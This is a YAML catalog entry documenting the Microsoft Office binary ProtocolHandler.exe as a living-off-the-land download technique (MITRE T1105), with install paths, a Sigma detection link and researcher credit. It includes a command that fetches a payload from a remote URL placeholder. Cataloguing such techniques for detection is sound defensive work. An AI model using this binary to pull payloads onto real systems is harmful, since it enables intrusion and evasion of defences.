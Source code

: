 ```yaml
---
Name: ProtocolHandler.exe
Description: Microsoft Office binary
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: ProtocolHandler.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: "It will open the specified URL in the default web browser, which (if the URL points to a file) will often result in the file being downloaded to the user's Downloads folder (without user interaction)"
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office15\ProtocolHandler.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_lolbin_protocolhandler_download.yml
  - IOC: Suspicious Office application Internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

